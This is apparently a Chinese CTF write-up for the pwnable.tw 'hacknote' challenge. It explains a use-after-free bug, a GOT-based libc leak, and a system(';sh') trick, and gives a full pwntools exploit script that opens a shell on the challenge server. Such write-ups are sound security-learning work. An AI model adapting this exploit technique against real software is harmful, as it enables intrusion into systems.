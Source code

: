 ```yaml
---
Layout: Post
title: pwnable.tw hacknote
date: 2022-09-01 15:04:01
---
```


UAF，以及发现了使用 `system()` 的小技巧。

## 程序分析

保护：

```txt
[*] '/home/nss/Desktop/pwnable.tw/hacknote/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8047000)
```

作为一个菜单题，本题菜单如下：

```txt
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

**Add note：**
申请一个0x16的区块（`malloc(0x8)`）和一个用户决定大小的区块(`malloc(size)`)，我将其称为**控制区块**和**用户区块**。
在控制区块的8字节用户可用空间中，分别塞入一个函数地址、和用户区块的地址。
然后进行 `read(0, malloc(size), size)`，允许用户输入内容至用户区块。

在一个固定地址（`0x0804a050`），存放着一个指针数组，用来存储历次分配产生的控制区块的地址。
为了防止溢出，程序在每次add note时都会先检查全局变量note_count（自己取的名），并且在分配成功后让note_count++。最多可以分配5个区块。

**Delete note：**
输入index，将对应的用户数组和控制数组释放（注意先后顺序）。
但这里并不会让note_count--，也不会从全局指针数组中删除控制区块。**只会free而已。**

**Print note：**
输入index，将对应控制区块的用户可用空间地址压栈（也就是函数的指针的地址），调用对应控制数组存放的函数（该函数会将arg0加4后作为一个 `char*` 调用 `puts` 输出）。

## 漏洞分析

本题没有buffer overflow（都是调用read完成），也没有栈上的漏洞。
唯一的漏洞在于UAF——**程序在使用delete note来free区块之后，依然能够使用print note来使用对应区块存放的数据（具体来说，调用存放的函数指针）。**

所以只需要构造一下，使得**已经被释放的控制区块被分配作用户区块**，这样就可以在控制区块中写入信息，控制控制流。

## 利用 Exploitation

我先随意 `add_note` 两次并释放之，两个原控制区块都被 `free` 到fast bin中。然后再 `add_note(8)`，那么此时原来的两个控制区块，一个被用作新的控制区块，另一个被用作了用户区块。

这时，我往用户区块中塞入两个4Bytes：一个是程序特化的打印函数，会把参数当作地址+4后，调用 `puts` 函数打印之；还有一个是got表中 `puts` 的地址（这里任意got表中函数都可以）。
然后调用print note，这样程序就会把got表中 `puts` 的地址打印出来，那么libc基地址就有了。

之后可以故技重施，再把那两个受害者区块 `free` 再 `malloc` ，此时再往用户区块中塞入两个4Bytes：一个是 `system()` 地址，**另一个是 `b'sh\x00'`**。
由于print note会把对应控制区块的用户可用空间压栈，也就是此时的 `&system()`，所以实际上我执行的是 `system(pack(system()) + ";sh")`，**通过分号来bypass前四个字节的不可打印字符**。

（除该技巧外，别的部分早就想出来了，就该技巧卡了好久，最后看网上wp学到了……）

EXP如下：

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./hacknote"
io = process([filename])
elf=ELF(filename)

libc_name="libc_32.so.6"
libc=ELF(libc_name)

def add_note(size, data):
    io.recvuntil(b'Your choice :')
    io.sendline(b'1')
    io.recvuntil(b'Note size :')
    io.sendline(str(size).encode('ascii'))
    io.recvuntil(b'Content :')
    io.send(data)

def delete_note(index):
    io.recvuntil(b'Your choice :')
    io.sendline(b'2')
    io.recvuntil(b'Index :')
    io.sendline(str(index).encode('ascii'))

def print_note(index):
    io.recvuntil(b'Your choice :')
    io.sendline(b'3')
    io.recvuntil(b'Index :')
    io.sendline(str(index).encode('ascii'))

io = remote("chall.pwnable.tw", 10102)

# leak libc_addr (using got["puts"], but actually all got[*] will work as same)
add_note(32, b'/bin/sh')
add_note(32, b'111')
delete_note(0)
delete_note(1)
add_note(8, pack(0x804862b)+pack(elf.got["puts"]))
print_note(0)
# calculate libc_addr
mes = io.recvuntil(b'HackNote')
libc_base = unpack(mes[0:4]) - libc.symbols["puts"]
print(hex(libc_base))

# system(b'\x??'*4 + b';sh\x00')
delete_note(2)
add_note(8, pack(libc_base+libc.symbols["system"])+b';sh\x00')
print_note(0)

io.interactive()
```
